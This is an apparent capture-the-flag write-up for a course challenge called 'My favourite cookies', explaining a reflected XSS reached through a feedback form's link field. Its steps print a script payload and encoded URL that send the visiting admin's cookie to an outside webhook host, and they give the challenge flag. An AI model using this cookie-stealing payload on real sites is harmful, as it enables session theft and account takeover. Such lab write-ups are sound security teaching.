 # Challenge `My favourite cookies` writeup

- Vulnerability: XSS
- Where: In the feedback form's link field
- Impact: It allows the retrieval of a remote user's (in this case, the admin's) cookies

## Finding the vulnerability / Steps to reproduce

1. The first step to retrieve the admin's cookie is setting up a web server (for example, in [Webhook](https://webhook.site/<id>)) to intercept incoming requests.
2. A first request shows that the provided link is then accessed, leaving an opportunity to inject a custom script into our link, as long as the endpoint belongs to one of the website's.
3. After testing in the search bar with a script that redirects the content of the accessing user's cookie to our website (`<script>window.location.href='https://webhook.site/<id>?cookie='+document.cookie</script>`), that URL (`http://mustard.stt.rnl.tecnico.ulisboa.pt:23251/?search=%3Cscript%3Ewindow.location.href%3D%27https%3A%2F%2Fwebhook.site%2F<id>%3Fcookie%3D%27%2Bdocument.cookie%3B%3C%2Fscript%3E`) can then be used in the feedback form.
4. As soon as the admin enters the link, the request is intercepted by our web server, thus revealing its cookie (`SSof{This_is_my_very_secret_secret`).